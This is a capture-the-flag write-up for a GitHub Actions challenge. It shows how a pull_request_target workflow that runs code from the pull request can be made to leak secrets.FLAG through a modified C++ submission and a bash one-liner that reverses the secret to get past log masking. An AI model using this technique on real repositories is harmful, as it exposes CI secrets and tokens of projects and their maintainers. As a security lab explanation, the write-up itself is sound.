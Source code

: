 # Fork Knife (500 points) - Github

You must solve the first challenge to get the answer of this 2nd challeng.

![Alt text](images/image.png)

This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There are a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.

![Alt text](images/image-1.png)

Looking at the actions tab to see the workflow running.
![Alt text](images/image-2.png)

and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}
